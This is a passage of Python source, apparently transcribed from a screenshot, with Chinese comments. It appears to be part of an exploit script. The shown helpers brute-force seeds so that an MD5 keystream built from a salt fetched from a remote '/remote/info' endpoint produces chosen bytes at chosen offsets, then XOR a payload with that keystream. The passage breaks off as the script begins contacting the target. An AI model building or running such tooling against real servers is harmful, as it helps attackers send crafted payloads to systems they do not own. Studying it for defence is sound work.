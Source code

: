 ```
        print("响应数据格式不正确")
        return None

def md5hex(salt, target_byte, offset, max_attempts=1000000):
    """    碰撞算法，爆破 seed 以使指定偏移处的字节等于目标字节。    :param salt: salt值，类型为 bytes    :param target_byte: 目标字节，类型为 int    :param offset: 偏移值，类型为 int    :param max_attempts: 最大尝试次数，类型为 int    :return: 满足条件的 seed 或 None    """
    for seed in range(max_attempts):
        # 将当前种子转换为字节
        seed_bytes = seed.to_bytes(4, byteorder='big', signed=False) 
        
        # 生成 MD5 密钥流
        key_stream = md5fun(salt, seed_bytes, 20480)

        # 检查指定偏移处的字节是否符合目标字节
        if len(key_stream) > offset and key_stream[offset] == target_byte:
            print(f"找到匹配的 seed: {seed}, "
                  f"对应的 MD5 字节流在偏移 {offset} 处的字节为: {key_stream[offset]:02x}")
            print(seed_bytes.hex())  # 使用 hex() 函数
            return seed_bytes
        
    print("未找到匹配的 seed。")
    return None


def hex2str(payload):
    """    将输入的十六进制数据转换为对应的字符串形式。    :param payload: 输入的十六进制数据，例如：0x123456789abcde 或 '0x123456789'    :return: 转换后的字符串形式，例如："123456789abcde"    """
    # 确保输入是字符串，去掉前缀 '0x'（如果有）
    if isinstance(payload, str) and payload.startswith("0x"):
        payload = payload[2:]
    
    # 或者，输入是整数时，直接转换为十六进制字符串
    if isinstance(payload, int):
        payload = hex(payload)[2:]  # 将整数转为十六进制字符串并去掉 '0x'

    # 对输入的字符串使用小写字母进行转换，以确保格式统一
    result = payload.lower()  # 将小写字母作为最终结果
    return result

def xorstr(key, payload):
    """    对输入的 payload 和 key 逐字节进行异或运算，并返回结果。    :param key: 字节串，作为异或的密钥。    :param payload: 字节串，输入需要进行异或运算的数据。    :return: 返回异或后的字节串。    """
    # 确保 key 和 payload 都是字节类型
    if not isinstance(key, bytes) or not isinstance(payload, bytes):
        raise TypeError('key and payload must be bytes')

    # 使用 itertools.cycle 使 key 循环以匹配 payload 的长度
    from itertools import cycle
    
    # 逐字节计算异或结果
    result = bytes(a ^ b for a, b in zip(payload, cycle(key)))
    
    return result



def crypt2hex(offset,target_byte,payload):
    #获取salt值
    salt_url = "https://192.168.18.123:4433/remote/info"
    salt = get_salt(salt_url)
    print("salt===>",salt)  
    if salt is not None:
```